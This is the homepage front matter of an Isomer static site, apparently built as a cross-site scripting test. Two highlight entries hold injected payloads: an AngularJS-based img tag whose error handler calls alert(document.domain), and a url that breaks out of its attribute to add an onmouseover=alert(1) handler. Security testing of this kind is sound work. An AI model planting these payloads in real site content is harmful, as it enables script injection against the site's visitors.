 ```yaml
---
layout: homepage
title: Isomer Site
description: Brief site description here
image: /images/isomer-logo.svg
permalink: /
notification: ffffff
sections:
  - hero:
      title: Hero title
      subtitle: Hero subtitle
      background: /images/hero-banner.png
      button: Contact Us
      url: /contact-us/
      key_highlights:
        - abcdef: "abcd\n\r\n\rtesttest"
          abcd: abcd
          title: Highlight A
          description: <b>testtest2</b>
          url: https://google.com/ttt"'>testframesetfffffewfewf213
        - title: Highlight B
          description: <script
            src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.js"></script>
            <img data-ng-app=""
            data-ng-on-error="$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.defaultView.document.domain)"
            src="x">
          url: https://test.com/" onmouseover=alert(1) >newAttribute
        - title: Page A
          description: Page A is important too
          url: /privacy/
  - infobar:
      title: Infobar title
      subtitle: Subtitle
      description: About a sentence worth of description here
      button: Button text
      url: /faq/
  - resources:
      title: Resourcesffff
      subtitle: fffff
      id: resources
      button: ffff
---
```

